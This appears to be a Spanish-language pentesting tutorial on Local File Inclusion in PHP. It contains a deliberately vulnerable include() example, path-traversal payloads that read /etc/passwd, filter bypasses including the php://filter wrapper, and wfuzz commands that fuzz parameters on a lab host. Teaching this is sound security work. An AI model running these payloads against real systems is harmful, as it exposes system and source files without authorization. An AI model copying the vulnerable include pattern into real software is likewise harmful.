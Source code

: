 
## 📑 Índice de Contenidos

1. [🔥 Ejemplo vulnerable](#lfi)
2. [❌ ¿Qué hace mal este código?](#mal)
3. [🔍 ¿Cómo sospechamos que puede haber un LFI?](#-cómo-sospechamos-que-puede-haber-un-lfi)
4. [🔁 Bypasses comunes](#-bypasses-comunes)
5. [🤖 Automatizando con `wfuzz`](#-automatizando-con-wfuzz)
6. [🔎 Caso práctico: LFI en `login.php`](#-caso-práctico-lfi-en-loginphp)



<a name="lfi"></a>
🗂️ LFI (Local File Inclusion)
Una mala configuración en una aplicación web puede permitir al atacante incluir archivos del sistema, revelando información sensible. A continuación, un ejemplo típico en PHP:

🔥 Ejemplo vulnerable
```
<?php
// archivo: index.php

if (isset($_GET['page'])) {
    include($_GET['page']);
} else {
    include("home.php");
}
?>
```

<a name="mal"></a>
❌ ¿Qué hace mal este código?
Usa directamente $_GET['page'] sin validación.

  -Permite al atacante incluir archivos arbitrarios.

  -Por ejemplo, el siguiente payload puede mostrar el contenido de /etc/passwd en sistemas Linux:
  ```
  http://ejemplo.com/index.php?page=../../../../../../../etc/passwd
  ```

## 🔍 ¿Cómo sospechamos que puede haber un LFI?
URLs como estas son sospechosas:
```
http://victima.com/index.php?page=home
http://victima.com/?template=about
http://victima.com/view.php?file=readme.txt
```
Prueba incluir archivos del sistema:
```
http://victima.com/index.php?page=../../../../../../../etc/passwd
```
🧪 Si es vulnerable, verás algo como:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## 🔁 Bypasses comunes

Si hay validaciones o filtros, intenta con variantes como:

| Técnica                                  | Ejemplo                                                                          |
| ---------------------------------------- | -------------------------------------------------------------------------------- |
| Null byte (en versiones antiguas de PHP) | `../../../../../etc/passwd%00`                                                   |
| Agregar signo de pregunta                | `../../../../../etc/passwd?`                                                     |
| Rutas con doble punto y slash mezclados  | `....//....//etc/passwd`                                                         |
| Wrappers de PHP                          | `php://filter/convert.base64-encode/resource=index.php` (para ver código fuente) |


si quieres saber más de payloads:
```bash
https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/
```
```bash
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#file-inclusionpath-traversal
```
si quieres saber más de los wrappers:
```bash
https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/Wrappers/
```
```bash
https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols
```

## 🤖 Automatizando con wfuzz

Puedes usar wfuzz con diccionarios específicos para encontrar rutas LFI:
```bash
wfuzz -u "http://target.com/index.php?page=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulcore.txt
```
Diccionarios útiles:

  -Seclist (dentro de /Fuzzing/LFI)

  -SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

## 🔎 Caso práctico: LFI en login.php

Supón que descubres esta URL:
```bash
http://172.17.0.2/login.php
```
Y sospechas que puede tener un parámetro vulnerable. Primero intentamos descubrir el nombre del parámetro:
```bash
wfuzz -c --hc=404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
👀 Observas que la mayoría de las respuestas tienen 1036 caracteres. Puedes filtrarlas con --hh:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
✅ Esto revela que el parámetro vulnerable es file. Ahora prueba un payload con un diccionario de LFI:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
"http://172.17.0.2/login.php?file=FUZZ"
```
